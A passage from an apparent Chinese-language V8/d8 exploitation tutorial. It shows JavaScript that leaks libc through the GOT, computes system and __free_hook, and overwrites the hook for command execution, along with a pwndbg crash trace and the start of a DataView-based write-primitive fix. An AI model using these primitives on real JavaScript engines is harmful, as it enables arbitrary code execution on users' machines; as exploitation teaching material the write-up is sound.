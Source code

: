 后续操作就是，计算d8基地址，读取GOT表中malloc等libc函数的内存地址，然后然后计算free_hook或system或one_gadget的地址，最后将system或one_gadget写入free_hook触发hook调用即可实现命令执行，以libc.2.27.so为例，具体实现如下：

```assembly
var d8_base_addr = leak_d8_addr -0xE4B5B0n;
var d8_got_libc_start_main_addr = d8_base_addr + 0x128FB70n;

var libc_start_main_addr = read64(d8_got_libc_start_main_addr);
var libc_base_addr = libc_start_main_addr - 0x21ab0n;
var libc_system_addr = libc_base_addr + 0x4f440n;
var libc_free_hook_addr = libc_base_addr + 0x3ed8e8n;

console.log("[*] find libc libc_free_hook_addr: 0x" + hex(libc_free_hook_addr));  <---- 正常
%SystemBreak();

write64(libc_free_hook_addr, libc_system_addr);  <---- 触发内存访问异常
console.log("[*] Write ok.");
%SystemBreak();
```

当我们运行上述代码后会发现，我们能够正确读取获得libc_free_hook的内存地址，但当执行write64原语时，却触发了内存访问异常：

```assembly
pwndbg> r
[*] Success find libc addr: 0x000056420e8075b0
[*] find libc libc_free_hook_addr: 0x00007f16f641b8e8
... ...
RAX  0x7f16f6400000
... ...
 ► 0x56420e5756bd    mov    rax, qword ptr [rax + 0x30]
   0x56420e5756c1    cmp    rcx, qword ptr [rax - 0x8fe0]
   0x56420e5756c8    sete   al
   0x56420e5756cb    ret    
... ...
Program received signal SIGSEGV (fault address 0x7f16f6400030)
pwndbg> 
```

细心的童鞋应该会发现，我们要写的内存地址0x00007f16f641b8e8在write64时低20位却被程序莫名奇妙地改写为了0，从而导致了后续写入操作的失败。

这是因为我们write64写原语使用的是FloatArray的写入操作，而Double类型的浮点数数组在处理7f开头的高地址时会出现将低20位与运算为0，从而导致上述操作无法写入的错误。出现的结果就是，直接用FloatArray方式向高地址写入会不成功。

那怎么解决这一问题呢？我们借助DataView这个对象，将write写原语修改一下。DataView对象的使用方法如下：

```assembly
// create an ArrayBuffer with a size in bytes
var buffer = new ArrayBuffer(16);

var view = new DataView(buffer);
view.setUint32(0, 0x44434241, true);

console.log(view.getUint8(0, true));
%DebugPrint(view);
%SystemBreak();
```
